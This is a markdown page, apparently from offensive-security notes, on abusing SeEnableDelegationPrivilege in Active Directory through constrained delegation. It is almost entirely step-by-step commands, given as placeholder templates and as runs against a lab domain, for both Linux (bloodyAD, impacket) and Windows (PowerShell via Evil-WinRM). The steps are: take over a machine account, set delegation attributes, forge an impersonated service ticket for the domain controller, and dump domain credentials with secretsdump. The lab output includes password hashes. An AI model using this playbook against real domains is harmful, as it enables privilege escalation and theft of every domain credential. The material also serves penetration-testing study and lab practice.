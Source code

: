 ```yaml
---
title: "SeEnableDelegationPrivilege"
date: 2025-7-19
tags: ["SeEnableDelegationPrivilege", "Pass-The-Ticket", "Service Ticket", "Ticket Granting Ticket", "Constrained Delegation", "Active Directory", "Windows", "KCD", "secretsdump"]
---
```


### Abuse #1: Constrained Delegation

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Control of a Machine Account

```console
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> set password '<TARGET_MACHINE>$' '<NEW_PASSWORD>'
```

```console {class="sample-code"}
$ bloodyAD -d REDELEGATE.VL -u 'HELEN.FROST' -p 'Fall2024!' --host DC.REDELEGATE.VL set password 'FS01$' 'Fall2024!'
[+] Password changed successfully!
```

#### 2. Set msDS-AllowedToDelegateTo to Target SPN

```console
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> set object 'CN=<TARGET_MACHINE>,CN=COMPUTERS,DC=<EXAMPLE>,DC=<COM>' 'msDS-AllowedToDelegateTo' -v 'ldap/<DC>'
```

```console {class="sample-code"}
$ bloodyAD -u 'HELEN.FROST' -p 'Fall2024!' -d 'REDELEGATE.VL' --host 'dc.redelegate.vl' set object 'CN=FS01,CN=COMPUTERS,DC=REDELEGATE,DC=VL' 'msDS-AllowedToDelegateTo' -v 'ldap/dc.redelegate.vl'
[+] CN=FS01,CN=COMPUTERS,DC=REDELEGATE,DC=VL's msDS-AllowedToDelegateTo has been updated
```

#### 3. Set TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION Flag

```console
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add uac '<TARGET_MACHINE>$' -f TRUSTED_TO_AUTH_FOR_DELEGATION
```

```console {class="sample-code"}
$ bloodyAD -u 'HELEN.FROST' -p 'Fall2024!' -d 'REDELEGATE.VL' --host 'dc.redelegate.vl' add uac FS01$ -f TRUSTED_TO_AUTH_FOR_DELEGATION
[-] ['TRUSTED_TO_AUTH_FOR_DELEGATION'] property flags added to FS01$'s userAccountControl
```

#### 4. Request a Service Ticket

```console
impacket-getST '<DOMAIN>/<TARGET_MACHINE>$:<NEW_PASSWORD>' -spn 'ldap/<DC>' -impersonate DC
```

```console {class="sample-code"}
$ impacket-getST 'redelegate.vl/fs01$:Fall2024!' -spn ldap/dc.redelegate.vl -impersonate DC
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating DC
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in DC@ldap_dc.redelegate.vl@REDELEGATE.VL.ccache
```

#### 5. Secretsdump

```console
# Import Ticket
export KRB5CCNAME=DC@ldap_<DC>@<DOMAIN>.ccache
```

```console {class="sample-code"}
$ export KRB5CCNAME=dc@ldap_dc.redelegate.vl@REDELEGATE.VL.ccache
```

```console
# Secretsdump
sudo ntpdate -s <DC_IP> && impacket-secretsdump -k -no-pass <DC>
```

```console {class="sample-code"}
$ sudo ntpdate -s 10.129.234.50 && impacket-secretsdump -k -no-pass DC.REDELEGATE.VL
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ec17f7a2a4d96e177bfd101b94ffc0a7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9288173d697316c718bb0f386046b102:::
Christine.Flanders:1104:aad3b435b51404eeaad3b435b51404ee:79581ad15ded4b9f3457dbfc35748ccf:::
---[SNIP]---
[*] Cleaning up...
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Control of a Machine Account

```console
Set-ADAccountPassword -Identity "<TARGET_MACHINE>$" -Reset -NewPassword (ConvertTo-SecureString "<NEW_PASSWORD>" -AsPlainText -Force)
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\Helen.Frost\Documents> Set-ADAccountPassword -Identity "FS01$" -Reset -NewPassword (ConvertTo-SecureString "Fall2024!" -AsPlainText -Force)
```

#### 2. Set msDS-AllowedToDelegateTo to Target SPN

```console
Set-ADObject -Identity "CN=<TARGET_MACHINE>,CN=COMPUTERS,DC=<EXAMPLE>,DC=<COM>" -Add @{"msDS-AllowedToDelegateTo"="ldap/<DC>"}
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\Helen.Frost\Documents> Set-ADObject -Identity "CN=FS01,CN=COMPUTERS,DC=REDELEGATE,DC=VL" -Add @{"msDS-AllowedToDelegateTo"="ldap/dc.redelegate.vl"}
```

#### 3. Set TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION Flag

```console
Set-ADAccountControl -Identity "<TARGET_MACHINE>$" -TrustedToAuthForDelegation $True
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\Helen.Frost\Documents> Set-ADAccountControl -Identity "FS01$" -TrustedToAuthForDelegation $True
```

#### 4. Request a Service Ticket

```console
impacket-getST '<DOMAIN>/<TARGET_MACHINE>$:<NEW_PASSWORD>' -spn 'ldap/<DC>' -impersonate DC
```

```console {class="sample-code"}
$ impacket-getST 'redelegate.vl/fs01$:Fall2024!' -spn ldap/dc.redelegate.vl -impersonate DC
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating DC
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in DC@ldap_dc.redelegate.vl@REDELEGATE.VL.ccache
```

#### 5. Secretsdump

```console
# Import Ticket
export KRB5CCNAME=DC@ldap_<DC>@<DOMAIN>.ccache
```

```console {class="sample-code"}
$ export KRB5CCNAME=dc@ldap_dc.redelegate.vl@REDELEGATE.VL.ccache
```

```console
# Secretsdump
sudo ntpdate -s <DC_IP> && impacket-secretsdump -k -no-pass <DC>
```

```console {class="sample-code"}
$ sudo ntpdate -s 10.129.234.50 && impacket-secretsdump -k -no-pass DC.REDELEGATE.VL
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ec17f7a2a4d96e177bfd101b94ffc0a7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9288173d697316c718bb0f386046b102:::
Christine.Flanders:1104:aad3b435b51404eeaad3b435b51404ee:79581ad15ded4b9f3457dbfc35748ccf:::
---[SNIP]---
[*] Cleaning up...
```

{{< /tabcontent >}}
